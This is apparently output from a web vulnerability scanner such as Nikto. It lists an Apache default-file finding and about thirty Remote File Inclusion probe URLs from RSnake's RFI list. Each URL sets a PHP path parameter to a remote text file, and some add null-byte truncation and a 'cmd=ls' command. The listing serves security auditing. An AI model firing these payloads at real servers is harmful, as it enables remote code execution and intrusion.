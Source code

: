 + /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ /?_CONFIG[files][functions_page]=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /?npage=-1&content_dir=http://blog.cirt.net/rfiinc.txt%00&cmd=ls: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /?npage=1&content_dir=http://blog.cirt.net/rfiinc.txt%00&cmd=ls: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /?show=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?1=lol&PAGES[lol]=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?AML_opensite=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?AMV_openconfig=1&AMV_serverpath=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?CONFIG[MWCHAT_Libs]=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?ConfigDir=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?DIR_PLUGINS=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?G_JGALL[inc_path]=http://blog.cirt.net/rfiinc.txt%00: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?HomeDir=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?Lang=AR&Page=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?Madoa=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?RP_PATH=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?_REQUEST=&_REQUEST[option]=com_content&_REQUEST[Itemid=1&GLOBALS=&mosConfig_absolute_path=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?_REQUEST=&_REQUEST[option]=com_content&_REQUEST[Itemid]=1&GLOBALS=&mosConfig_absolute_path=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?abg_path=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?abs_path=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?abs_path=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?adduser=true&lang=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?adodb=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?ads_file=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?arquivo=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?back=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?base==http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?basePath=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?bibtexrootrel=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?blog_dc_path=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?blog_theme=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2